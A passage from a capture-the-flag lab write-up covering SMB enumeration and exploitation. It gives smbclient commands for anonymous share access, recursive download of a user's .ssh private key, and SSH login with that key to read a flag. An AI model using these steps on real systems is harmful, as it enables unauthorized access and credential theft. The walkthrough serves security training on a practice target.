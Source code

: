 |    Getting printer info for <ip>    |
 ============================================
No printers returned.

enum4linux complete on Mon Mar 29 05:15:13 2021
{% endraw %}{% endcapture %} {% include code.html code=code%}

SMB port `139` is used for internal windows-windows share.
SMB port `445` is used to access SMB over internet.


### Task 4 - Exploiting SMB

Use these links as references.
- [SMBclient Reference](https://www.samba.org/samba/docs/current/man-html/smbclient.1.html){:target="_blank"}
- [SMBclient Reference](https://bigb0ss.medium.com/tip-smbclient-c5e1f40909d9){:target="_blank"}


Use `smbclient`, enumerate and get the flag.
{% capture code %}{% raw %}smbclient //<ip>/profiles -U Anonymous -p 445{% endraw %}{% endcapture %} {% include code.html code=code%}
{% capture code %}{% raw %}Enter WORKGROUP\Anonymous's password: <empty>
Try "help" to get a list of possible commands.{% endraw %}{% endcapture %} {% include code.html code=code%}

Check if there are any interesting files and download that.
{% capture code %}{% raw %}ls
get "<file>" smb_enum.txt
!cat smb_enum.txt{% endraw %}{% endcapture %} {% include code.html code=code%}

Since the user is allowed ssh to other server, check if there is any remnants of rsa/dsa keys.
{% capture code %}{% raw %}recurse ON
prompt ON
mget .ssh
  getting file \.ssh\id_rsa of size 1679 as id_rsa (2.5 KiloBytes/sec) (average 2.5 KiloBytes/sec)
  getting file \.ssh\id_rsa.pub of size 396 as id_rsa.pub (0.6 KiloBytes/sec) (average 1.5 KiloBytes/sec)
  NT_STATUS_ACCESS_DENIED opening remote file \.ssh\authorized_keys
exit{% endraw %}{% endcapture %} {% include code.html code=code%}

Try to ssh using the downloaded rsa keys.
{% capture code %}{% raw %}ssh cactus@<ip>
ls
cat smb.txt
  <flag>{% endraw %}{% endcapture %} {% include code.html code=code%}


## Telnet


### Task 6 - Enumerating Telnet

Use these links as references.
- [NMAP Reference](https://4n3i5v74.github.io/posts/cheatsheet-nmap/){:target="_blank"}
